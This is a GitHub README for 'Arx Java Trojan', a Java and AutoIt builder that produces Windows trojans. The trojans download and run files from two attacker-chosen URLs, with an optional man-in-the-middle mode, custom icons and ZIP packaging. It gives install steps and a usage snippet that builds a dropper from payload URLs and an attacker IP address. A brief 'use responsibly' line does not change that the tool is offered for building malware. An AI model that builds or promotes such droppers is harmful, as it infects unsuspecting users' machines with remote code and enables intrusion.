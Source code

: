# Arx Java Trojan

- This project is designed to create a Trojan software that can download and execute files from specified URLs. 
- It is developed in Java and compiled to run in a Windows environment using AutoIt.

## Features

- Ability to download and execute files from two URLs.
- Optional creation of a temporary file for man-in-the-middle (MITM) attacks.
- Icon customization feature to add a specific icon to the compiled file.
- Packaging of the generated file into a ZIP archive.

## Requirements

- Java JDK
- [Wine](https://www.winehq.org/) (to run Windows applications)
- [AutoIt](https://www.autoitscript.com/site/autoit/downloads/) and the `Aut2exe` tool

## Installation

1. **Install Requirements:**
   - Install Java JDK and Wine on your system.
   - Download and install AutoIt, noting the path to `Aut2exe`.

2. **Clone the Project:**
   ```bash
   git clone https://github.com/cyze-afresh/Arx-Java-Trojan/

3. **Prepare Necessary Files:**
   Place the appropriate icon files in the icons directory.



# Usage

You can use the Trojan class to create a Trojan. Below is an example:

`
Trojan trojan = new Trojan("http://example.com/file1.exe", "http://example.com/file2.exe", "path/to/icon.ico", "outputFile.exe", "your.ip.address");
trojan.create(true); // Set to true for MITM mode
trojan.compile(); // Compile the AutoIt code
trojan.zip("outputFile.exe"); // Create a ZIP archive
`
# Notes

Ensure that you have permission to download and execute files from the specified URLs.

Use this project responsibly and in compliance with applicable laws and regulations.

# Contribution
I would like to thank my friend Rovaniq for contributing to this project.

Feel free to contribute to the project by submitting issues or pull requests. All contributions are welcome!

